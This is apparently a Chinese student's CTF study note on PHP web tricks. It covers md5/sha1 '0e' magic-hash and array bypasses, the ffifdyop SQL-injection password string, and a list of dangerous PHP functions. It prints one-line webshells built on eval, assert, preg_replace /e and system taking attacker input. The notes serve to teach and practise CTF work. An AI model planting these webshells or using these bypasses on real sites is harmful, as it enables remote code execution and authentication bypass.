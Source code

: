 ## 新生第一步，认识md5（five）
例题：
```php
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = [$_POST['password'];](url)
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?> 
```
如例题所示，要求传入的是两个参数，post一个password，get一个name,要求两个东西的参数内容不一样，但是md5的值要一样，看似是不可能的，但是，md5其实早已被前人们给创烂了，md5的对撞已经不是很难完成，但是，这里用的并不是md5的对撞，而是php语言的妙妙小特性：
在md5化之后，如果数据以0e加纯数字结尾，会被直接解析为0，以此达到相等的结果,这里贴出一些值:
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361

这里还有经过两次md5后值还相同的：
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk

自己等于自己md5的：
0e215962017

同理，还有一种加密算法sha1也有这样的问题，这里一并贴出：
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799

还有一种很罕见的
NAN绕过，在处理时发生错误

sql注入相关：
md5后值是万能密码：ffifdyop

还有md5值和sha1相等的参考极客大挑战2024的题

这是第一种打法
那么，主播主播，找特殊值还是太困难了，有没有更简单更强势的打法呢？


有的兄弟，有的，像这么强势的打法不止这一种（bushi


介绍大名鼎鼎的数组绕过：
管他什么name[]=1password[]=2直接秒了，但是以后大概是没有这么顺利的题了

## 二、一些敏感的函数：
eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点
#### eval()
大名鼎鼎，臭名昭著。一句话木马常客一号。
```php
<?php @eval($_POST['shell']);?>
```
#### assert()
同样是很敏感的东西，一句话木马常客二号
```php
<?php assert(@$_POST['shell']); ?>
```
#### preg_replace()
这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马
```php
preg_replace("/test/e",$_GET["shell"],"just test");
```
剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function()  (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system() 
漏洞头头，这里放出一句话木马的形式：
```php
<?php
    system($_GET['cmd']);
?>
```
#### exec() 执行外部程序
```php
<?php 
    echo exec("whoami");
?>
```

#### shell_exec() 通过shell环境执行命令，并将完整的输出以字符串的方式返回
```php
<?php 
    echo shell_exec("whoami");
?>
```

剩下的由于不怎么常用，这里仅做列举
passthru() 执行外部程序并且显示原始输出
```php
<?php 
    passthru("whoami");
?>
```
proc_open() 执行一个命令，并且打开用来输入/输出的文件指针
pcntl_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
反引号，实质上还是调用的shell_exec()函数，在CTF题目里面有的时候会忘记过滤导致直接拿到flag
### 文件包含系
php中包含的函数一共有四个，主要作用为包含并运行指定文件
require() 函数
inclue() 函数
require_once() 函数
include_once() 函数
include()与require_once()主要的区别是：include()在包含的过程中如果出现错误，会抛出一个警告，程序继续运行；而require()函数出现错误时，会直接报错并退出程序的执行
require_once()和include_once()，显然表示的是文件只包含一次的意思，避免函数重定义和变量重新赋值等问题
这些函数通常配和伪协议来实现文件包含漏洞；
### SSRF系
~~没学过还不会，先放着~~
###  XXE系
~~也没学过~~


